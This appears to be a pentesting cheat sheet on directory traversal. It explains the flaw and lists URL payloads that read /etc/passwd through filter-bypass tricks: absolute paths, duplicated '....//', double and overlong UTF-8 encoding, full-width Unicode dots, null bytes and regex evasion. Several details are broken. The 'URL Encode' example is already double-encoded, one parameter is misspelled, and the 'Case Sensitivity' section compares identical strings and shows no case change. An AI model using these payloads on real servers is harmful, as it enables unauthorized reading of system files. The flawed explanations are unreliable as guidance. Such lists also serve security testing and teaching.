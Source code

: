 # Directory Traversal

### Explanation
Directory traversal (also known as path traversal) is a vulnerability that occurs when an application allows a user to access files and directories beyond the intended directory. This vulnerability arises when user input is not properly sanitized, allowing attackers to manipulate file paths and access sensitive files or directories on the server.  

> [!NOTE]
> Its recommended the usage of Burp Suite to execute all the requests explained below. Using the repeater tool that facilitates the url encoding and response view.

### User input
The application takes user input, typically in the form of a file path or filename. Example: ```website.com/?filename=home.html```

### File Path Manipulation
An attacker manipulates the input by adding special characters or sequences such as "../" (dot-dot-slash) to traverse directories.  
Example:  
```website.com/?filename=../../../../../../../../../../../../../etc/passwd```  

### Accessing Sensitive Files
With the manipulated input, the attacker can access files and directories outside the intended scope, potentially gaining unauthorized access to sensitive information or system files.

### Avoiding string sanitation & security checks
#### Absolute path
There are times that you only need to request the absolute path to get the requested file:  
```website.com/?filename=/etc/passwd```

#### Non recursive replacement
Sometimes the security checks if the requested path contains ../ on the string without recursion. So to bypass this we need to duplicate the string like this:  
```website.com/?filename=....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd```  
As you can see we duplicated all the ```../``` strings.

#### URL Encode
If the system is blocking all the previous requests we can try to encode the url to bypass it:  
```website.com/?filename=..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc/passwd```

#### Double Encoding
In cases where the input is subjected to multiple rounds of decoding or filtering, double URL encoding the payload might evade detection. This involves encoding the special characters twice, making it harder for the filters to recognize and sanitize. Example:  

```website.com/?ilename=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd```  

#### Alternate Encodings
Apart from URL encoding, consider other character encodings such as UTF-8 or Unicode. By encoding the payload in different formats, you might bypass certain sanitization mechanisms that are designed to handle specific encodings. Example:  
```website.com/?filename=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd```  

#### Unicode Transformation
Transforming characters into their Unicode equivalents can sometimes bypass input filters. For instance, the dot character "." (U+002E) can be represented as "．" (U+FF0E) in full-width form, which might evade detection. Example:  
```website.com/?filename=..%ef%bc%8e%2f..%ef%bc%8e%2f..%ef%bc%8e%2fetc%ef%bc%8fpasswd```


#### Null Byte Injection
Some systems may perform string sanitation based on file extensions or known patterns. Null byte injection involves appending a null byte ("%00") to the end of the input string to terminate the string, effectively bypassing any subsequent checks. Example:  
```website.com/?filename=../../../../../../../../../../../etc/passwd%00```

#### Case Sensitivity
Exploit case sensitivity in file systems or URL handling mechanisms. For instance, if the system checks for "../" but not for "../", you could bypass the check by altering the case of the characters. Example:  
```website.com/?filename=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd```

#### File extension validation
Usually the url's that are requesting files are images using the imageName & extension (image1.png). A common security method used to prevent this requests is to check the file extension inside the requested url. We can bypass this using a null byte on the request:  
```website.com/?filename=../../../../../../../../../../../../../etc/passwd%00.jpg``` 

#### Regular Expression Bypass
If the application uses regular expressions to validate or sanitize input, understanding the patterns used can help you craft payloads that bypass these checks. Regular expressions can sometimes be complex and may not account for all possible edge cases. By carefully analyzing the regex pattern, you might identify weaknesses that can be exploited. Example:  
```website.com/?filename=../../..\/..\/..\/..\/..\/etc/passwd```